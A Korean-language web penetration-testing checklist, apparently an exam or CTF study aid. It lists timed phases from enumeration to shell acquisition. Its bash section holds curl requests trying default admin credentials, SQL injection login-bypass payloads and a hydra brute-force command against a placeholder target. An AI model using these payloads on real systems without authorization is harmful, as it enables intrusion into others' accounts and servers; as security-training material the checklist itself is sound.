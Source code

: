 
## 📋 단계별 체크리스트

### 🎯 Phase 1: 기본 열거 (15분)

- [ ] **웹 서버 정보 수집** `curl -I, whatweb`
- [ ] **디렉토리 스캔 시작** `gobuster, dirb`
- [ ] **기본 파일 확인** `robots.txt, sitemap.xml`
- [ ] **기술 스택 식별** (PHP, ASP.NET, JSP, Python)
- [ ] **CMS 식별** (WordPress, Joomla, Drupal)

### 🔍 Phase 2: 상세 열거 (15분)

- [ ] **디렉토리 스캔 결과 분석**
- [ ] **발견된 페이지들 수동 확인**
- [ ] **폼과 입력 필드 확인**
- [ ] **파라미터 발견** (GET, POST)
- [ ] **파일 업로드 기능 확인**

### 💥 Phase 3: 취약점 테스트 (20분)

- [ ] **SQL Injection 테스트**
- [ ] **LFI/RFI 테스트**
- [ ] **파일 업로드 우회 시도**
- [ ] **XSS 테스트** (필요시)
- [ ] **명령어 주입 테스트**

### 🐚 Phase 4: 쉘 획득 시도 (10분)

- [ ] **웹쉘 업로드 시도**
- [ ] **리버스쉘 획득 시도**
- [ ] **인증 우회 시도**
- [ ] **설정 파일 접근 시도**
- [ ] **다른 서비스와 연계**

---

## 🎯 상황별 대응

### 📁 디렉토리 스캔 결과별 대응

#### /admin/, /administrator/ 발견시

```bash
# 관리자 페이지 접근
curl -I http://{IP}/admin/
curl -I http://{IP}/administrator/

# 기본 자격증명 시도
curl -X POST -d "username=admin&password=admin" http://{IP}/admin/login.php
curl -X POST -d "username=admin&password=password" http://{IP}/admin/login.php
curl -X POST -d "username=root&password=root" http://{IP}/admin/login.php

# SQL Injection 시도
curl -X POST -d "username=admin'--&password=anything" http://{IP}/admin/login.php
curl -X POST -d "username=admin' OR '1'='1'--&password=anything" http://{IP}/admin/login.php

# 브루트포스 시도
hydra -l admin -P /usr/share/wordlists/rockyou.txt {IP} http-post-form "/admin/login.php:username=^USER^&password=^PASS^:Invalid"
```
